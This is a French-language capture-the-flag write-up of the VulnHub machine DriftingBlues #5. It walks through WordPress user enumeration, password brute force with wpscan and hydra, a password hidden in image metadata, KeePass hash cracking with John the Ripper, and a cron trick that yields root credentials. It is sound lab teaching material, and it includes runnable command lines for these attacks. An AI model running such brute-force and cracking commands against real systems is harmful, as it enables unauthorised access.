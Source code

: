 ```yaml
---
title: Solution du CTF DriftingBlues #5 de VulnHub
tags: [CTF, VulnHub]
---
```


Le 5ème élément
---------------

Challenge téléchargeable sur VulnHub [à cette adresse](https://www.vulnhub.com/entry/driftingblues-5,662/). Nmap nous indique tout de suite la présence d'un Wordpress.  

```plain
$ sudo nmap -sCV -T5 -p- 192.168.56.10 
[sudo] Mot de passe de root :  
Starting Nmap 7.92 ( https://nmap.org )
Nmap scan report for 192.168.56.10 
Host is up (0.00039s latency). 
Not shown: 65533 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-generator: WordPress 5.6.2 
|_http-title: diary – Just another WordPress site 
|_http-server-header: Apache/2.4.38 (Debian)
```

C'est toujours mieux d'avoir un outil pour énumérer les utilisateurs au lieu de le faire à la main :  

```plain
$ docker run -it --rm wpscanteam/wpscan --url http://192.168.56.10/ -e ap,at,u
--- snip ---

[+] abuzerkomurcu 
 | Found By: Author Posts - Author Pattern (Passive Detection) 
 | Confirmed By: 
 |  Rss Generator (Passive Detection) 
 |  Wp Json Api (Aggressive Detection) 
 |   - http://192.168.56.10/index.php/wp-json/wp/v2/users/?per_page=100&page=1 
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 |  Login Error Messages (Aggressive Detection) 

[+] gill 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] collins 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] satanic 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] gadd 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Comme cette série de CTFs se prête volontiers aux jeux de pistes j'ai directement extrait les mots des pages web en utilisant CeWL. Exemple :  

```plain
$ docker run -it --rm cewl http://192.168.56.10/index.php/2021/02/24/a-deep-dive-on-the-blancpain-fifty-fathoms/ >> words.txt
```

Bien sûr on prendra soin de trier et de retirer les doublons (voir pages de manuel de sort et uniq) avant de bruteforcer.  

```plain
$ docker run -v /tmp/:/data -it --rm wpscanteam/wpscan --url http://192.168.56.10/ -U abuzerkomurcu,gill,collins,satanic,gadd -P /data/words.txt
--- snip ---
[!] Valid Combinations Found: 
 | Username: gill, Password: interchangeable
```

Hmmm cet utilisateur n'est pas l'admin. Il peut uploader des médias mais le type de fichier est vérifié...  

Sur le Wordpress je remarque une page de brouillon baptisée *Privacy Policy — Draft, Privacy Policy Page* malheureusement je ne peux pas y accéder.  

Dans la liste des images uploadées il y a le fichier *dblogo.png*. Il ne m'avait pas spécialement attiré, d'autant plus que les dossiers sous */wp-content/uploads/* sont listables, il n'y a donc aucun besoin d'obtenir un compte sur le Wordpress pour le retrouver. Quoiqu'il en soit si on le regarde avec un éditeur hexa on trouve ce tag EXIF :  

```html
<rdf:li photoshop:LayerName="ssh password is 59583hello of course it is lowercase maybe not " photoshop:LayerText="ssh password is 59583hello of course it is lowercase maybe not :)"/>
```

Je n'avais pas envie de me casser la tête dessus alors j'ai réutilisé un code Python [ici](https://www.geeksforgeeks.org/permute-string-changing-case/). Il n'est pas parfait, il génère des dupliquas quand le mot contient des caractères autres que des lettres.  

Une fois la wordlist avec les permutations générées on se rend compte que ça ne servait à rien :  

```plain
$ hydra -L users.txt -P cases.txt ssh://192.168.56.10 
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). 

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 160 login tries (l:5/p:32), ~10 tries per task 
[DATA] attacking ssh://192.168.56.10:22/ 
[22][ssh] host: 192.168.56.10   login: gill   password: 59583hello 
1 of 1 target successfully completed, 1 valid password found
```

L'accès SSH obtenu permet d'obtenir un premier flag.  

Password exchange
-----------------

Dans le dossier de l'utilisateur se trouve une archive pour le gestionnaire de mots de passe Keypass. On utilise un utilitaire de *John The Ripper* pour en obtenir un hash :  

```plain
$ keepass2john keyfile.kdbx  
keyfile:$keepass$*2*60000*0*86fe1a63955b5984c0adb127a869153f24c41fdc56678d555f778d1309f9867c*e580d1bef4bf0f44b845fce13c9648cd22f143760be5bae503a419a7f76a21f0*e99d45aab90c26200191dbca6b3fae34*e3169392c5eec5e094b
1f22a01084f894598280874de2bf8291ea2185051f7e3*78d0b1eb59343754ce0ce33b2efb5e25c595317099a65ed208bfc2f6ab8c8dcd
```

C'est cassé relativement rapidement sans GPU :  

```plain
$ john --wordlist=rockyou.txt  hash.txt 
Using default input encoding: UTF-8 
Loaded 1 password hash (KeePass [SHA256 AES 32/64]) 
Cost 1 (iteration count) is 60000 for all loaded hashes 
Cost 2 (version) is 2 for all loaded hashes 
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes 
Will run 4 OpenMP threads 
Press 'q' or Ctrl-C to abort, almost any other key for status 
porsiempre       (keyfile)
```

On en extrait les entrées suivantes :  

```plain
2real4surreal
buddyretard
closet313
exalted
fracturedocean
zakkwylde
```

Aucun de ces mots de passe n'est accepté pour *root* que ce soit via *su* ou *SSH*... oups.  

LinPEAS indique la présence d'un dossier inhabituel à la racine :  

```plain
╔══════════╣ Unexpected in root 
/vmlinuz.old 
/initrd.img 
/initrd.img.old 
/vmlinuz 
/keyfolder
```

Ce dernier dossier est vide... WTF !  

Si on vérifie les processus lancés sur la machine avec *pspy* on voit une tache cron :  

```plain
2022/01/20 13:00:01 CMD: UID=0    PID=14314  | /usr/sbin/CRON -f  
2022/01/20 13:00:01 CMD: UID=0    PID=14315  | /bin/sh -c /root/key.sh  
2022/01/20 13:00:01 CMD: UID=0    PID=14316  | /bin/bash /root/key.sh
```

Et le script en question n'est pas accessible. Ma seule idée a été de créer des fichiers ayant le nom des pass précédemment trouvés dans le dossier. L'idée était finalement correcte mais il ne fallait placer qu'un seul fichier à la fois. Ainsi avec *fracturedocean* la tache CRON faisait apparaître un fichier *rootcreds.txt* avec le contenu suivant :  

```plain
root creds 

imjustdrifting31
```

Ces identifiants permettent bien sûr l'accès root et l'obtention du flag final.  

Sous le capot
-------------

Voici le script lié à la tache CRON :  

```bash
#!/bin/bash 

if [[ $(ls /keyfolder) == "fracturedocean" ]]; then 
        echo "root creds" >> /keyfolder/rootcreds.txt 
        echo "" >> /keyfolder/rootcreds.txt 
        echo "imjustdrifting31" >> /keyfolder/rootcreds.txt 
fi

```

Un peu déçu sur ce CTF par rapport aux autres en raison d'un peu de guessing. Il aurait fallut que l'image ait un nom plus explicite et le script final devrait fonctionner à partir du moment où le fichier attendu est présent.  


*Published January 20 2022 at 18:11*
